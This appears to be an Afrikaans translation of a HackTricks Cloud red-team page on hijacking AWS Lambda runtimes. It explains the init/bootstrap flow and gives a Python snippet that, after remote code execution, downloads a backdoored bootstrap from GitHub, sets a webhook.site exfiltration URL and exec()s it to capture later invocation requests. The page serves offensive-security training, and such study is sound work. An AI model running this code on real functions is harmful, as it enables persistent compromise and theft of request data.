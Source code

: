 # AWS - Steel Lambda Versoeke

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Vloei

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is 'n proses buite die houer wat **versoeke stuur** na die **init** proses.
2. Die init-proses luister op poort **9001** en stel 'n paar interessante eindpunte bloot:
* **`/2018-06-01/runtime/invocation/next`** – kry die volgende versoek gebeurtenis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – gee die handler se antwoord vir die versoek
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – gee 'n uitvoeringsfout terug
3. **bootstrap.py** het 'n lus wat versoeke van die init-proses kry en roep die gebruikerskode aan om dit te hanteer (**`/next`**).
4. Uiteindelik stuur **bootstrap.py** die **antwoord** na init

Let daarop dat bootstrap die gebruikerskode as 'n module laai, so enige kode-uitvoering wat deur die gebruikerskode uitgevoer word, gebeur eintlik in hierdie proses.

## Steel Lambda Versoeke

Die doel van hierdie aanval is om die gebruikerskode 'n kwaadwillige **`bootstrap.py`** proses binne die **`bootstrap.py`** proses te laat uitvoer wat die kwesbare versoek hanteer. Op hierdie manier sal die **kwaadwillige bootstrap** proses begin **praat met die init-proses** om die versoeke te hanteer terwyl die **regte** bootstrap **vasgevang** is om die kwaadwillige een te laat loop, sodat dit nie versoeke aan die init-proses sal vra nie.&#x20;

Dit is 'n eenvoudige taak om te bereik aangesien die kode van die gebruiker deur die regte **`bootstrap.py`** proses uitgevoer word. So die aanvaller kan:

* **Stuur 'n vals resultaat van die huidige versoek na die init-proses**, sodat init dink die bootstrap-proses wag vir meer versoeke.
* 'n Versoek moet gestuur word na **`/${invoke-id}/response`**&#x20;
* Die invoke-id kan verkry word uit die stapel van die regte **`bootstrap.py`** proses deur die [**inspect**](https://docs.python.org/3/library/inspect.html) python module te gebruik (soos [hier voorgestel](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) of net weer aan te vra by **`/2018-06-01/runtime/invocation/next`** (soos [hier voorgestel](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Voer 'n kwaadwillige **`boostrap.py`** uit wat die volgende versoeke sal hanteer
* Vir stealth-doeleindes is dit moontlik om die lambda versoek parameters na 'n aanvaller-beheerde C2 te stuur en dan die versoeke soos gewoonlik te hanteer.
* Vir hierdie aanval is dit genoeg om die oorspronklike kode van **`bootstrap.py`** van die stelsel of [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) te kry, die kwaadwillige kode by te voeg en dit van die huidige lambda versoek af te laat loop.

### Aanvalstappe

1. Vind 'n **RCE** kwesbaarheid.
2. Genereer 'n **kwaadwillige** **bootstrap** (bv. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Voer** die kwaadwillige bootstrap uit.

Jy kan hierdie aksies maklik uitvoer deur:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Vir meer inligting, kyk [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Verwysings

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
